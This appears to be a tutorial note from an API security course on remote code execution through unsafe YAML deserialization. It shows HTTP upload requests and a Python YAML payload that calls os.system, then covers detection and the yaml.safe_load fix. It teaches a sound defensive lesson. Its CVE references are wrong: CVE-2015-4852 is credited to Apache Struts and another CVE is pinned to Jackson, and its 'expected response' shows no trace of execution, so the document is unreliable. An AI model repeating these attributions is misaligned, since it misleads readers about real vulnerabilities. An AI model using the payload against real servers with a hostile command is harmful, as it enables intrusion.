

## Remote Code Execution via Deserialization in APIs

### Introduction to Deserialization Vulnerabilities

Deserialization vulnerabilities occur when an application takes untrusted data and reconstructs it into an object. This process can be exploited by attackers to execute arbitrary code, leading to Remote Code Execution (RCE) attacks. In the context of APIs, deserialization vulnerabilities often arise due to improper handling of serialized data formats such as JSON, XML, or YAML.

### Background Theory

#### What is Deserialization?

Deserialization is the process of converting a stream of bytes back into objects. This is commonly used in applications to transfer data between different systems or to store data in a persistent manner. For example, when an API receives a serialized object, it deserializes it to work with the data in memory.

#### Why Does Deserialization Matter?

Deserialization is critical because it allows applications to exchange complex data structures efficiently. However, if the deserialization process is not properly secured, it can lead to serious security issues. Attackers can craft malicious serialized data that, when deserialized, can execute arbitrary code within the application’s environment.

### Real-World Examples

#### Recent CVEs and Breaches

One notable example of a deserialization vulnerability is **CVE-2015-4852**, which affected Apache Struts. This vulnerability allowed attackers to inject malicious serialized Java objects, leading to RCE. Another example is **CVE-2017-1744**, which affected the Jackson library in Java, allowing attackers to exploit deserialization flaws to execute arbitrary code.

### Detailed Explanation of the Lecture Chunk

The lecture chunk describes a scenario where an attacker uses a tool like Postman to send a file to an API endpoint. The goal is to demonstrate how deserialization can be exploited to achieve RCE.

#### Step-by-Step Mechanics

1. **File Upload**: The attacker uploads a file through an API endpoint using Postman.
2. **Content Type Manipulation**: The attacker changes the `Content-Type` header to `application/x-yaml`, indicating that the data should be treated as YAML.
3. **Payload Crafting**: The attacker crafts a payload that, when deserialized, can execute arbitrary code.

### Complete Example

Let's break down the steps with a complete example:

#### File Upload Request

```http
POST /upload HTTP/1.1
Host: example.com
Content-Type: application/x-yaml
Content-Length: 10

hello
```

#### Response

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 37

Document was uploaded successfully.
```

### Exploiting Deserialization

To exploit deserialization, the attacker needs to understand how the server handles the deserialization process. In this case, the server uses `yaml.load()` to deserialize the input.

#### Malicious Payload

A malicious payload could look like this:

```yaml
!!python/object/apply:os.system ["echo 'Exploited!'"]
```

This payload instructs the Python interpreter to execute the `os.system` function with the argument `"echo 'Exploited!'"`.

#### Full Request with Malicious Payload

```http
POST /upload HTTP/1.1
Host: example.com
Content-Type: application/x-yaml
Content-Length: 53

!!python/object/apply:os.system ["echo 'Exploited!'"]
```

#### Expected Response

If the server is vulnerable, the response might indicate successful execution of the payload:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 37

Document was uploaded successfully.
```

### How to Prevent / Defend

#### Detection

To detect deserialization vulnerabilities, you can use tools like:

- **YAML Linter**: To ensure that the YAML content is valid and does not contain malicious instructions.
- **Static Analysis Tools**: Such as SonarQube or Fortify, which can identify insecure deserialization patterns in the code.

#### Prevention

1. **Input Validation**: Ensure that all inputs are validated and sanitized before being deserialized.
2. **Use Safe Deserialization Libraries**: Use libraries that provide safe deserialization mechanisms. For example, in Python, use `yaml.safe_load()` instead of `yaml.load()`.
3. **Whitelist Allowed Classes**: Only allow deserialization of specific classes that are known to be safe.

#### Secure Coding Fixes

**Vulnerable Code**

```python
import yaml

def handle_upload(data):
    obj = yaml.load(data)
    return obj
```

**Secure Code**

```python
import yaml

def handle_upload(data):
    obj = yaml.safe_load(data)
    return obj
```

### Network Topology Diagram



### Common Pitfalls

1. **Improper Input Validation**: Failing to validate input can lead to deserialization of malicious payloads.
2. **Using Unsafe Deserialization Methods**: Using methods like `yaml.load()` instead of `yaml.safe_load()` can expose the application to risks.
3. **Lack of Whitelisting**: Not whitelisting allowed classes can allow attackers to deserialize arbitrary objects.

### Hands-On Labs

For practical experience with deserialization vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers exercises on deserialization vulnerabilities.
- **OWASP Juice Shop**: Contains several deserialization challenges.
- **DVWA (Damn Vulnerable Web Application)**: Provides scenarios to practice exploiting deserialization vulnerabilities.

By thoroughly understanding and implementing these preventive measures, you can significantly reduce the risk of deserialization vulnerabilities in your applications.

---
<!-- nav -->
[[01-Introduction to RCE via Deserialization in APIs|Introduction to RCE via Deserialization in APIs]] | [[API Security/23-RCE Via Deserialization in API/02-RCE Demonstration/00-Overview|Overview]] | [[API Security/23-RCE Via Deserialization in API/02-RCE Demonstration/03-Practice Questions & Answers|Practice Questions & Answers]]
